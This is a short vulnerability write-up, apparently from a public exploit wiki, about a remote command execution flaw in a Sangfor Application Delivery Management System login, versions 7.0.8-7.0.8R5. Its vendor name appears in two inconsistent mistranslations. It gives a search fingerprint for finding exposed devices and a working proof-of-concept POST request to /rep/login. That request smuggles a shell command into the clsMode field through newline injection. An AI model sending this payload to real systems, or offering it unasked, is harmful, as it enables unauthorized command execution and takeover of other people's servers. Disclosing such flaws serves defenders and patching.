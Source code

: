 #Shenxinshui Application Delivery Management System login remote command execution vulnerability

## Vulnerability Description

Deepin Service Application Delivery Management System login has a remote command execution vulnerability. The attacker can obtain server permissions and execute any commands through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Shenxinshui Application Delivery Management System 7.0.8-7.0.8R5</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">fid="iaytNA57019/kADk8Nev7g=="</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1675307887742-7f1d91ab-0fc3-4b09-b434-70466ec13871.png)

Verify POC

```plain
POST /rep/login 

clsMode=cls_mode_login%0Als%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1675307928621-8722e4f7-ddd8-44ee-9010-4f9189a12081.png)